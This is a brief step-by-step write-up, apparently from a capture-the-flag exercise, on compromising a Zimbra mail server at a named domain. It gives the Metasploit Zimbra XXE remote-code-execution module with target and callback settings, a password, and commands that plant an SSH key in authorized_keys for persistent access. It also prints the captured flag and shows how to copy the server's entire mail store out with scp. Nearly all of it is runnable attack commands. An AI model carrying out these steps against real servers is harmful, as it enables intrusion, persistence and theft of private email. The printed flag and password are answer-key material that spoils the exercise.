 # Mail Server

1. Address: `mail.petromaz.ir`
2. Find Vuln: `https://www.exploit-db.com/exploits/46693`
3. Run Metasploit `msfconsole -q`
```
use exploit/linux/http/zimbra_xxe_rce
set RHOST mail.petromaz.ir
set RPORT 443

set LHOST <your-ip>
set LPORT 4747

# run it as a JOB
run
```
**Password: Zimbra2024**
4. Check SSH Keys (Create One, if needed)
```
cd ~/.ssh
ls -la
cat id_rsa.pub

# Create If You Don't Have one
ssh-keygen -t rsa
```
5. Set public Key: `echo "<your-pub-key>" > ~/.ssh/authorized_keys`
6. Ssh into Server: `ssh -i <private-key> zimbra@mail.petromaz.ir`
7. Get Flag
```
cat /flag.txt
MAZAPA_aee82fac0c8fb5818b26db37a577027c
```
8. Download Zimbra Data
```
scp -r zimbra@mail.petromaz.ir:/opt/zimbra/store/0 ./08-store0
```
9. Check Emails and Decode Files
**Base64 Decoder:** `https://www.freeformatter.com/base64-encoder.html`
10. Network Map: [🗂 Network Map On Excel](./09-258-3.xlsx)
